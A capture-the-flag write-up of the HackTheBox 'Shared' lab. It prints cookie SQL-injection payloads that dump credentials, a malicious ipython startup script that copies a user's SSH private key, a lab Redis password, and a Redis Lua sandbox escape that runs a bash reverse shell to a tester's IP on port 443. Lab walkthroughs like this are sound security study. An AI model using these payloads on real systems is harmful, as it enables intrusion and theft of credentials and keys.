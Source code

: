# Shared machine

![shared](./images/shared.png)


## Author ✒️

* **Salvador Jesús Megías Andreu** - [salvadorJMA](https://github.com/salvadorJMA)
  

## Information Gathering/Enumeration
🔍  👀 💥 💀 👂 🔐 🔑 🔓 🔒 💣 📋 🚀 📃
### Nmap
We begin our reconnaissance by running an Nmap scan checking for open ports.

```console
nmap -p- --open -T5 -v -n -oG allports 10.10.11.172
```
![ports](./images/ports.png)


Basic numbering scripts are launched and detect version and service that run through the open ports found.

```console
nmap -sV -sC -p22,80,443 -oN targeted 10.10.11.172
```

![basicEnumeration](./images/basicEnumeration.png)

with this action, we have discovered a new domain to which we are redirected **https://shared.htb**.

Which is an online store, in which we are going to add a product to the cart and we are going to proceed with the checkout in the subdomain **https://checkout.shared.htb**:




![newHost](./images/newHost.png)




![cart](./images/cart.png)


In this subdomain we realize that a cookie is dragged with the id of the product that we selected previously:


![cookieCart](./images/cookieCart.png)

So we are going to try to modify the cookie to check if it is vulnerable to SQL injections:

#### 1. database name search:

```console
{"' and 0=1 union select 1,schema_name,3 from information_schema.schemata limit 1,1-- -":"2"}
```

![SQLsearch](./images/buscando.png)

Once we have verified that it is vulnerable to SQL injections, we start with the search through SQL commands for relevant information that is useful to us, such as: the name of the database, the possible users... etc.

#### 2. database's tables names search:

```console
{"' and 0=1 union select 1,table_name,3 from information_schema.tables where table_schema='checkout'-- -":"2"}
```

![SQLsearch2](./images/buscando2.png)


#### 3. user name search:

```console
{"' and 0=1 union select 1,username,3 from checkout.user-- -":"2"}
```

![SQLsearch3](./images/buscando3.png)

#### 4. Searching for james_mason's user password:

```console
{"' and 0=1 union select 1,password,3 from checkout.user where username='james_mason'-- -":"2"}
```

![SQLsearch4](./images/buscando4.png)


Once we have found the user james_mason and his password, we realize that the hash is encrypted using the md5 cryptographic reduction algorithm. So we proceed to decrypt it:

![descrytionHash](./images/descrytionHash.png)


Having already the credentials of the user james_mason, we connect via ssh:


```console
ssh james_mason@10.10.11.172
```

![accessJamesMaison](./images/accessJamesMaison.png)


There are 3 groups in our system, james_mason is specifically in the developer group, so we would have to find a way to escalate privileges in the system.

#### Groups

![groups](./images/groups.png)

We have found that the first flag user.txt is held by the user dan_smith:

![groups](./images/userTXTdan_smith.png)




If we run **pspy** we can see that uid 1001 runs periodically every x time ipython

![pspy](./images/ipythonExecution.png)

Searching for a while some vulnerability for ipython, we found the following: [vulnerability](https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x) 


```console
mkdir -m 777 profile_default
```

```console
mkdir -m 777 profile_default/startup
```

```console
echo "import os; os.system('cat ~/.ssh/id_rsa > /dev/shm/key')" > profile_default/startup/foo.py
```
![ipythonVulnerability](./images/ipythonvulnerability.png)



after a few seconds we can see in /dev/shm the id_rsa of dan_smith:

![id_rsaDan](./images/keyCreated.png)


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```console
ssh dan_smith@10.10.11.172 -i id_rsa
```
![userTXT](./images/dan_smith.png)

------

As we can see, with the group we want to access, which is the sysadmin group, there is a binary:

```console
find / -group sysadmin 2>/dev/null
```

![sysAdmin](./images/sysadminGroup.png)

We execute it

```console
/usr/local/bin/redis_connector_dev
```

![redis1](./images/redisExecution1.png)

We execute it, and we see that it performs some type of login with a password, to see the password that redis uses to identify itself, we download the binary locally:

```console
scp -i id_rsa dan_smith@10.10.11.172:/home/dan_smith/redis_connector_dev .
```

![redis2](./images/redisLocalTransporte.png)


and we run it, listening on port 6379, which is the default port used by the redis service. We finally obtain the password:

```console
netcat -lvnp 6379
```

![redis3](./images/passwordRedis.png)



## Root Flag


Searching for a while some exploit for Redis RCE through Lua Sandbox Escape vulnerability, we found the following:
[exploit](https://github.com/JacobEbben/CVE-2022-0543/blob/main/exploit.py) 

We will use this exploit to generate a reverse shell using port 443:

```console
echo "bash -i >& /dev/tcp/10.10.14.117/443 0>&1" > /dev/shm/sh
```

```console
redis-cli --pass F2WHqJUz2WEz=Gqq
```

```console
 eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = l(); local f = io.popen("cat /dev/shm/sh | bash"); local res = f:read("*a"); f:close(); return res'
```

```console
netcat -lvnp 443
```


![exploit](./images/rootObtained.png)



---
<div align="center">

<br/>

⌨️ with ❤️ by [Salvador Megías Andreu](https://github.com/salvadorJMA) 😊

</div>

